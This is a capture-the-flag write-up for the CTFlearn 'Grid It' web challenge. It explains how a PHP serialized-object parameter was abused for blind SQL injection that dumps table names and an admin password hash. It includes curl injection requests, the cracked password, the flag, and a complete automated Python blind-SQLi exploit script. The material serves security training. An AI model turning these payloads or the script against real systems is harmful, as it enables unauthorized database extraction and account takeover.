

# Grid It! - *Write-up by @terjanq*

> **Grid It** (*by INTELAGENT*)
> Can you bypass the security measures on the site and find the flag? I doubt it.
> http://web.ctflearn.com/grid

### Login page
After visiting the given URL we see a simple register/login panel. After some trying, we can easily give up any idea of **SQL/null-byte Injection**, because username/password can contain any character (even null-byte!). 

### Grid It
After successful logging in, we see a 2d  plane where we can either *add* or *remove* points. This is the only functionality of the site, so it is most likely our target to explore. We notice that any request goes through `controller.php?action=` where `action=` can be followed by either `login`, `register`, `logout`, `add_point`, `delete_point` or hidden `debug`. 




### Adding points
Adding points is as simple as sending the request: `POST /controller.php?action=add_point data="x={x}&y={y}"`. 

The page is refusing to add a point which contains any non-digit character so at this stage we skip it.
```sh
$ curl --cookie @sessid 'http://web.ctflearn.com/grid/controller.php?action=add_point' --data 'x=a' 
Must pass in both parameters.

$ curl --cookie @sessid 'http://web.ctflearn.com/grid/controller.php?action=add_point' --data 'x=a&y=b'
Must pass in digits.
```

### PHP Object Injection
We recieve a list of added points
```
ID: 507868 x: 300 y: 300 delete
ID: 507869 x: 400 y: 400 delete
```
 where *delete* links to: `http://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:3:"300";s:1:"y";s:3:"300";s:2:"ID";s:6:"507868";}`


We notice that `point` paramentr contains a **PHP serialized object**. First thing I tried was modifying the given object with a simple **SQL Injection** :
```sh
$ curl --cookie @sessid  'http://web.ctflearn.com/grid/controller.php?action=delete_point' --data-urlencode 'point=O:5:"point":3:{s:1:"x";s:3:"300";s:1:"y";s:3:"300";s:2:"ID";s:11:"507868 OR 1";}' --get
```

And voila, all of the points have vanished! 

In the mean time I had also tried more advanced object manipulation. For example, giving a wrong formatted serialized data results with the following error: 
> <br />
> <b>Notice</b>:  unserialize(): Error at offset 62 of 70 bytes in <b>/usr/share/nginx/html/web/grid/controller.php</b>on line <b>65</b><br />
> <br />
> <b>Fatal error</b>:  Call to a member function delete() on a non-object in <b>/usr/share/nginx/html/web/grid/controller.php</b> on line <b>66</b><br />

We read that `delete()` function is invoked on `point` object so maybe we could do some **PHP Object Injection**?
After quick listing classes containing `::delete()` method we get the following:
```sh
$ php -a
Interactive mode enabled

php >   foreach (get_declared_classes() as $class) {
php {     foreach (get_class_methods($class) as $method) {
php {       if ($method == "delete")
php {         echo "$class->$method\n";
php {     }
php {   }
Phar->delete
PharData->delete
```

Comes out that these classes (*Phar* and *PharData*) seem pretty useless in this task, especially that they cannot be even serialized! Looking at the receiving header: `X-Powered-By: PHP/5.5.9-1ubuntu4.22` we notice that the version of PHP is `PHP/5.5.9` which has a lot of [vulnerabilites]. Some of them are about *deserialization*, but let's return to the **SQL Injection**. 

### Blind SQL Injection
We suspect that the *SQL query* looks something like `DELETE FROM ... WHERE ID={} ...`, but we don't get any output from executing the query, so we have to do a **Blind SQL Injection**. 

The idea of the attack is to fetch an information about *table* and *column names* inside given database. Our queries will look like: `DELETE FROM ... WHERE ID={1337} AND {QUERY}` where if `QUERY` returns `true` point of id `1337` gets removed and nothing happens otherwise. Let's create an example query: `..ID=507868 AND Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT 0,1),1,1))>97`. We are fetching the first character of the returned the first table name (it is important that `SELECT` returns exactly one record, that's what `LIMIT 0, 1` is for) and comparing it with 'a' character. Now we can do a **binary search** for each character to determine which one it is and by repeating the process to fetch the whole name.

After repeating the process and increassing offsets in `LIMIT {offset},1` and `substring(..., {start}, 1)` we get two tables with six columns in summary:

| point | | |
| ----- | - | - |
| id | point_blob | uid |

| user | | |
| - | - | - |
| username | password | uid |

Now we just need to fetch admin's password and we can do so by executing the following query `.. AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT 0,1),{word_offset},1))>{comparing_char}` which gives us a *MD5 hash* `0c2c99a4ad05d39177c30b30531b119b`. And after cracking it we get the real password: `grapevine`.

### Flag
After logging in into admin's account, we are given the flag: `ctflearn{obj3ct_inj3ct1on}` whose name is very confusing, because it wasn't an object injection at all, just some simple object modification!

### Python exploit
A bit complicated, but friendly to use, exploit created to solve the task
```python
import requests
import urllib
import re


url_base = "http://web.ctflearn.com/grid/controller.php"
url_login= url_base+"?action=login"
url_debug= url_base+"?action=debug"
url_delete= url_base+"?action=delete_point&point="
url_addpoint = url_base+"?action=add_point"

payload_base = 'O:5:"point":1:{s:2:"ID";s:@LENGTH@:"@QUERY@";};'
init_array = []
sillent = False
fancy_console = False

ASCIIAlphabet = "\001 !\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\]^_`abcdefghijklmnopqrstuvwxyz{|}~"
simpleAlphabet = "\001abcdefghijklmnopqrstuvwxyz"
HEXAlphabet = "\0010123456789abcdef"
advancedAlphabet= "\0010123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ_abcdefghijklmnopqrstuvwxyz"

admin_hash_payload = "@ID@ AND Ascii(substring((SELECT password FROM user WHERE username='admin' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
tables_payload = "@ID@ AND Ascii(substring((SELECT table_name FROM information_schema.tables WHERE table_schema = database() LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_user_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'user' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"
columns_point_payload = "@ID@ AND Ascii(substring((SELECT column_name FROM information_schema.columns WHERE table_name = 'point' LIMIT @rOFFSET@,1),@wOFFSET@,1))>@cORD@"

def printInPlace(alert):
	if fancy_console: 
		print(alert, end="\b"*len(alert), flush=True)
	return fancy_console

def isLogged():
	debug = requests.get(url_debug, cookies=sessid)
	i = debug.text.find("[user]")
	return False if i==-1 else True

def createPayload( query ):
	return payload_base.replace("@LENGTH@", str(len(query))).replace("@QUERY@", query)

def sendPayload ( query ):
	if sillent == False: print ("exec: WHERE ID= {}".format(query))
	payload = createPayload(query)
	delete = requests.get(url_delete+payload, cookies=sessid)
	return findIDs(delete.text)

def logIn(login_info):
	global sessid
	print ("loggin in: ", login_info)
	login = requests.post(url_login, data=login_info, allow_redirects=False)
	sessid = login.cookies.copy()
	return

def findIDs(text):
	regex = re.compile(r"ID:\s(\d{6})")
	matches = regex.findall(text)
	return matches

def addPoints():
	alert = "      [[Adding points]]"
	if printInPlace(alert) == False and sillent == False: 
		print("[[Adding points]]")
	for x in range(1, 30):
		point = {'x': 0, 'y': 0}
		requests.post(url_addpoint, data=point, cookies=sessid, allow_redirects=False)
	printInPlace(" "*len(alert))
	return

def tryPayload(str):
	global init_array
	if(len(init_array) <= 1):
		addPoints()
		init_array = sendPayload("1")
	oldLen = len(init_array)
	init_array = sendPayload(str)
	return oldLen != len(init_array)

#bin-search ASCII inside [alphabet]
def findName(payload, alphabet):
	a = 0
	b = len(alphabet)-1
	while (a < b):
		mid = (a+b)//2
		c = alphabet[mid]
		printInPlace(c)
		if tryPayload(payload
			.replace("@cORD@", str(ord(c)))
			.replace("@ID@", str(init_array[0]))
			): a = mid + 1
		else:
			b = mid
	return alphabet[a]


def findNames(payload, alphabet):
	for result_offset in range(0, 10):
		result = ""
		pl = payload.replace("@rOFFSET@", str(result_offset))
		for word_offset in range(1, 40):
			pl2 = pl.replace("@wOFFSET@", str(word_offset))
			c = findName(pl2, alphabet)
			if c == alphabet[0]: break
			print(c, end='', flush=True)
			result+=c
		print(" ")
		if len(result) <= 1: break
	return


def findTables():
	print ("..:: Searching for table names ::..")
	findNames(tables_payload, advancedAlphabet)

def findUserColumns():
	print ("..:: Searching for column names in user ::..")
	findNames(columns_user_payload, advancedAlphabet)

def findPointColumns():
	print ("..:: Searching for column names in point::..")
	findNames(columns_point_payload, advancedAlphabet)


def findAdminHash():
	print ("..:: Searching for Admin hash ::..")
	findNames(admin_hash_payload, HEXAlphabet)


def deletePoints():
	sendPayload("1 OR 1")
	exit(0)


fancy_console = True # Turn on fancy terminal output
sillent = True # Turn off debugging mode
logIn({'uname': 'writeup', 'pass': 'writeup'})


if isLogged():
	print("Sucessfully logged in")
else:
	exit("Unsuccessful login!")


#deletePoints();
#addPoints();
init_array = sendPayload("1");

findTables();
findPointColumns();
findUserColumns();
findAdminHash();
```


*https://ctflearn.com/index.php?action=find_problem_details&problem_id=430*


[vulnerabilites]: <https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/version_id-164957/PHP-PHP-5.5.9.html>

